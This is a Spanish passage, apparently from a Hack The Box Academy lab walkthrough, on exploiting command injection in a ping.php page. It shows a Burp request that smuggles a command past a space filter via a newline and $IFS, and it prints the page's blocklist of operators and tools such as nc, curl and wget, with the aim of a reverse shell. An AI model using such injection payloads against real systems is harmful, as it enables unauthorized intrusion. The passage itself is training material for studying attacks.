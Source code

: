 ```r
        inet 10.129.203.101  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:67:a5  txqueuelen 1000  (Ethernet)
        RX packets 10055  bytes 1041358 (1.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2316  bytes 4030180 (4.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.254.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:feb9:a62d  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a6:2d  txqueuelen 1000  (Ethernet)
        RX packets 21515  bytes 1890242 (1.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Nuestro próximo desafío es encontrar una forma de obtener un shell inverso. Podemos ejecutar comandos individuales, pero cualquier cosa con un espacio no funciona. Volviendo a la sección [Bypassing Space Filters](https://academy.hackthebox.com/module/109/section/1036) del módulo `Command Injections`, recordamos que podemos usar la `($IFS) Linux Environment Variable` para eludir las restricciones de espacio. Podemos combinar esto con la elusión de caracteres de nueva línea y comenzar a enumerar formas de obtener un shell inverso. Para ayudarnos, echemos un vistazo al archivo `ping.php` para entender qué se está filtrando para que podamos limitar la cantidad de conjeturas necesarias.

Cambiando a Burp y haciendo la solicitud `GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}ping.php`, o similar, nos muestra el contenido del archivo, y podemos trabajar en superar el filtro y encontrar una manera de establecer un shell inverso.


```r


<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }

  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
```